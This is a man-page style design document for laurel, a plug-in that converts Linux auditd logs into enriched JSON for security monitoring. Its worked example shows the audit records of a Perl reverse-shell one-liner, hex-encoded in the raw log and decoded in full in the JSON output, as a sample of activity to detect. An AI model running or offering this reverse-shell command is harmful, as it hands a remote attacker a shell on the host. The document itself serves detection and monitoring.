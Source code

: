 ```yaml
---
title: laurel - About
section: 7
header: System Administration Utilities
footer: laurel 0.5.1
---
```


# NAME
laurel-about - High-level description of `laurel(8)` design, rationale, features

# DESCRIPTION

## Problem statement

While logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful for host-based security monitoring, the log format is not well-suited for at-scale analysis in a SIEM. 

### Format issues

- All non-trivial events are split across multiple lines that have to be joined together using a message identifier, but current search-centric log analysis systems are quite limited when it comes to join operations.
- Files and program executions are logged via `PATH` and `EXECVE` elements. The character set for strings is a limited subset of ASCII no escaping mechanism exists: If a string contains bytes that have special meaning in the format (even space or quote characters), the entire string is hex-encoded.
- Argument lists are preserved in `EXECVE` records, but with an `a0="…"`, `a1="…"`, `a2="…"`, `a3="…"` naming scheme, they are not easily accessible.
- Long command lines may be spread across multiple `EXECVE` event lines.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values.

### Missing context

Most audit events are based on either system calls or file operations. Whether or not some suspicious actions should be considered harmful, largely depends on the context in which it takes place. For example, one would not expect most web applications to use `netcat` to connect to hosts on the Internet, but an administrator who is logged and over SSH who uses `netcat` to debug network issues should raise fewer suspicions. Unfortunately, the only context that can be added for Linux audit events "keys" using the `-k` parameter of `auditctl(8)`.

### Example

Spawning a simple Perl reverse-shell one-liner creates the following 7-line audit log entry that nicely demonstrates some of these  shortcomings:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

## Solution

In addition to (or instead of) writing log files, `auditd(8)` can pass log lines to one or multiple plug-ins for further processing, see `auditd-plugins(5)`. `laurel(8)` is intended to be run as such a plug-in. It reads the audit logs from standard input, parses them, and writes a modified form of the audit log to a different log file.

### Output format

Log records carrying the same event ID (the `msg=audit(TIME:SEQUENCE):` part) are collected into coherent events and output as a JSONlines-based log format. Most importantly, hex-encoded strings are output as regular JSON strings. [RfC8259] mandates that "text exchanged between systems that are not part of a closed ecosystem MUST be encoded using UTF-8", therefore any bytes or byte sequences that are not valid UTF-8 are percent-encoded as described in [RfC3986]. Numbers are parsed as decimal, octal, or hexadecimal values and output in an unambiguous format. List data (`SYSCALL.{a0 … a3}` and `EXECVE.a*`) are turned into JSON arrays. `PROCTITLE.proctitle` is split at NULL bytes and transformed into a list.

[RfC8259]: https://datatracker.ietf.org/doc/html/rfc8259 'The JavaScript Object Notation (JSON) Data Interchange Format'

[RfC3986]: https://datatracker.ietf.org/doc/html/rfc3986 'Uniform Resource Identifier (URI): Generic Syntax'

### Structure

Every audit log line produced by _LAUREL_ is one single JSON object consisting of key/value pairs that contains at least an `ID` field.

- `SYSCALL`, `EXECVE`, `CWD`, `PROCTITLE` fields point to single JSON objects.
- `PATH`, `SOCKADDR` fields point to lists of JSON objects.

Every other kernel-produced audit message not mentioned above results in field pointing to a list of JSON objects. Details may change after the list of kernel audit message types has been reviewed.

### Encoding of invalid UTF-8 strings and binary data

- Most byte values that represent printable ASCII characters are reproduced as-is (but are subject to JSON string escaping rules).
- Bytes that map to non-printable ASCII characters (less than 32/0x20; 127/0x7f) are percent-encoded.
- Byte values that map to `%` (37/0x25) and `+` (42/0x2b) are percent-encoded.
- Byte values outside of the ASCII range (greater than 127/0x7f) are reproduced as-is if they are part of a valid UTF-8 sequence. Otherwise, they are percent-encoded.

Handling of special Unicode characters may change in the future.

### Translation / Enrichment

If `auditd(8)` has been configured with `log_format=ENRICHED`, it translates some numeric values in the original audit data to strings. Per convention, it adds translated information using all-caps versions of the keys. For example, 

    arch=c000003e syscall=59 uid=0
	
get translated to

    ARCH=x86_64 SYSCALL=execve UID="root"

by `auditd(8)`. All information that is added to records by `laurel(8)`  follows the same convention, i.e. keys are turned into all-caps. While `laurel` can be configured to perform the same translations as `auditd(8)`, it con perform other enrichments, including interpreted scripts, collecting specific environment variables, or container information for processes that are run within container environments.

### Adding Context: Process Relationships, Labels

While processing audit records `laurel(8)` tracks processes and remembers `comm`, `exe`, and the event ID associated with the latest `execve` event of a process. Processes that are tracked can be assigned labels through various mechanisms and those labels can optionally be propagated to child processes.

Mechanisms by which labels can be assigned include:
- using the key from an audit event (the `-k` option of `auditctl(8)`)
- regular expression applied to the executable path (`SYSCALL.exe` field)
- regular expression applied to the script path (`SYSCALL.SCRIPT` field, enriched)

The process tracking information can be used to enrich fields containing process ids, including `SYSCALL.{pid, ppid}` and `OBJ_PID.opid` associated with `ptrace` attach or `kill` syscalls.

### Volume reduction: Filtering out events

To reduce the high volume of events, it is possible to filter out events by key or by process label. Events that are filtered are still used for process tracking.

### Example

The log lines from the Perl reverse shell execution above are processed by `laurel(8)` into the following JSON log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root","PPID":{"EVENT_ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}}
```

# SEE ALSO
`laurel(8)`, `auditd(8)`, `audit.rules(7)`

# AUTHOR
- Hilko Bengen <<bengen@hilluzination.de>>
